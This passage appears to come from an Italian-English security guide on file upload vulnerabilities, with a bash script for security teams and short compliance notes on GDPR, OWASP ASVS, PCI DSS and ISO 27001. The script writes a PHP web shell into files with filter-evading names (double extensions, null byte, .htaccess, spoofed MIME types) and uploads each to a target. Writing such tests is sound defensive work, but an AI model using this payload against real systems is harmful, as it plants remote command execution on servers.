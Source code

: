 ### Testing Framework per Security Teams

**Automated Testing Suite**:
```bash
#!/bin/bash
# File Upload Security Test Suite

TEST_DIR="/tmp/upload_tests"
TARGET_URL="http://target/upload.php"

# Test cases array
declare -a TEST_CASES=(
    "shell.php|application/x-httpd-php"
    "shell.phtml|image/png"
    "shell.php.jpg|image/jpeg"
    "shell.php%00.jpg|image/jpeg"
    ".htaccess|text/plain"
    "shell.php5|image/png"
    "shell.asp|image/jpeg"
)

# Execute test cases
for test_case in "${TEST_CASES[@]}"; do
    IFS='|' read -r filename mimetype <<< "$test_case"
    echo "[+] Testing: $filename with MIME: $mimetype"
    
    # Create test payload
    echo '<?php system($_GET["cmd"]); ?>' > "$TEST_DIR/$filename"
    
    # Upload attempt
    curl -s -X POST \
        -F "file=@$TEST_DIR/$filename;type=$mimetype" \
        "$TARGET_URL" | grep -q "success" && \
        echo "[!] VULNERABLE: $filename uploaded successfully" || \
        echo "[-] Blocked: $filename"
done
```

### Compliance e Regulatory Considerations

**GDPR Implications**:
- File upload vulnerabilities possono portare a data breaches
- Requirement per data protection by design
- Notification obbligatoria entro 72 ore da compromissione

**Industry Standards**:
- **OWASP ASVS v4.0**: Requirements specifici per file upload (V12)
- **PCI DSS**: Controlli per applicazioni che gestiscono dati di pagamento
- **ISO 27001**: Framework di gestione della sicurezza informativa

### Cost-Benefit Analysis per Security Investment
